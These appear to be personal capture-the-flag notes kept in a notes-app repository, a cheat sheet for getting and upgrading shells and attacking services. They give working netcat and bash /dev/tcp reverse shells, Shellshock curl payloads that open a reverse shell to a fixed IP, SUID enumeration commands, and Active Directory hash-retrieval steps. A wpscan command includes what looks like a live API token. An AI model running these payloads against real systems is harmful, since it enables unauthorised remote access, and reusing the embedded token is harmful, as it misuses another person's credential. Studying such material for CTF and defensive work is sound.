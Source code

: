 // These are actual notes, and not relevant to the notes app.

# CTF Notes

## Opening a shell
1. Vim : !/bin/bash
2. netcat reverse shell _(see below)_
3. Bash reverse shell
4. Bash shellshock, in cgi and sometimes [ssh](https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)

* list binaries with SUID bit set:

      find / -perm -u=s -type f 2>/dev/null
      
* list files owned by an account:

      find / -user <username> 2>/dev/null

#### Netcat reverse shell
On the target machine shell : `nc <host> <any port> -e /bin/bash`

On your machine: `nc -lvp <port no>`

#### Bash reverse shell

      bash -i >& /dev/tcp/<ip>/4444 0>&1

### Upgrade shell to full tty
      SHELL=/bin/bash script -q /dev/null
      Ctrl-Z
      stty raw -echo
      fg
      reset
      xterm
      
#### Bash shellshock

Test if vulnerable:

    curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://<ip>/cgi-bin/test/test.cgi
To get shell: (do `nc -lvp 443` on your machine first)

    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://<ip>/cgi-bin/test/test.cgi

## Wordpress
      wpscan --api-token 2XiA11eRs5ryfHlZ2sX4wQuNWsdME48fpvxt9nlsnfs --url <url>


# Windows

1. Active Directory

## Active Directory

1. Username enumeration : enum4linux or  `nullinux -a`
2. GetNPUsers.py can retrieve password hashes if usernames are known and “UF_DONT_REQUIRE_PREAUTH” is set
3. With creds, can use evil-winrm if Windows Remote Management is enabled (usually port 5985)

###### TODO : What's Bloodhound (for privesc, apparently) and how do you use it?
